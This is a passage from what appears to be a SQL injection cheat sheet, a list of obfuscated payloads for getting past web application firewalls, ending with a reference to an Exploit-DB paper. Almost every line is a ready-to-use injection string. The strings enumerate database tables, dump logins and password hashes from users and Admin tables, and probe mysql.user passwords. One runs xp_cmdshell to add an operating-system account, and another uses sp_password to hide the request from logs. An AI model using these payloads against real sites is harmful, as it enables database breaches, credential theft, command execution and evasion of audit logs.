?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,
  
?id=15+/*!UnIoN*/+/*!aLl*/+/*!SeLeCt*/+1,version(),3,4,5,6,7--
  
id=1/*!limit+0+union+select+concat_ws(0×3a,table_name,column_name)+from+information_schema.columns*/
  
id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(TABLE_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.TABLES-- 
  
id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(COLUMN_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.COLUMNS+WHERE
  
+TABLE_NAME=0x41646d696e--
  
SELECT*FROM(test)WHERE(name)IN(_ucs2 0x01df010e004d00cf0148);
  
SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61)) in xml way
  
select user from mysql.user where user = 'user' OR mid(password,1,1)=unhex('2a')
  
select user from mysql.user where user = 'user' OR mid(password,1,1) regexp '[*]'
  
select user from mysql.user where user = 'user' OR mid(password,1,1) like '*'
  
select user from mysql.user where user = 'user' OR mid(password,1,1) rlike '[*]'
  
select user from mysql.user where user = 'user' OR ord(mid(password,1,1))=42
  
/?id=1+union+(select'1',concat(login,hash)from+users)
  
/?id=(1)union(((((((select(1),hex(hash)from(users))))))))
  
?id=1'; /*&id=1*/ EXEC /*&id=1*/ master..xp_cmdshell /*&id=1*/ “net user lucifer UrWaFisShiT” /*&id=1*/ --
  
id=10 a%nd 1=0/(se%lect top 1 ta%ble_name fr%om info%rmation_schema.tables)
  
id=10 and 1=0/(select top 1 table_name from information_schema.tables)
 
id=-725+UNION+SELECT+1,GROUP_CONCAT(id,0x3a,login,0x3a,password,0x3a,email,0x3a,access_level),3,4,5+FROM+Admin--
  
id=-725+UNION+SELECT+1,version(),3,4,5--sp_password //使用sp_password隐藏log中的请求
  
```
  
  
## Reference
  
[Beyond SQLi: Obfuscate and Bypass](https://www.exploit-db.com/papers/17934/)
  
